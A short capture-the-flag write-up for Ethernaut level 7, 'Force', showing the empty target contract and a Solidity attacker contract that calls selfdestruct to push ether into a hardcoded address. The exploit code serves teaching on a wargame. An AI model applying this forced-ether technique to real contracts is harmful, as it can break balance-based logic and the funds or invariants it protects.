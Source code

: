 # Ethernaut - Level 7 - Force

Contract code:

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract Force {/*

                   MEOW ?
         /\_/\   /
    ____/ o o \
  /~____  =ø= /
 (______)__m_m)

*/}
```

Objectives:
```
The goal of this level is to make the balance of the contract greater than zero.
```

This one for me was pretty difficult at first. 

There are no functions, even fallback functions; what can I do??

Then I stumble across the concept of self-destruction of contracts.

When a contract want to self-destruct, it sends all of its ether to an address that we can specify.

This could let us force our contract to send ether to this contract.

Attacker contract:
```
//SPDX-License-Identifier: MIT

pragma solidity ^0.8.0;


contract Destruction {
	address payable TARGET_CONTRACT = payable(0x35174d53DeA9700DA3161f6f6a8A48b63B0FAD97);


	function goodbye() public {
		selfdestruct(TARGET_CONTRACT);
	}


	function balance() public view returns (uint) {
		return address(this).balance;
	}

	receive() external payable {
		require(msg.value > 0);
	}
}
```

We need to declare a fallback function on our contract so that we can send some ether.
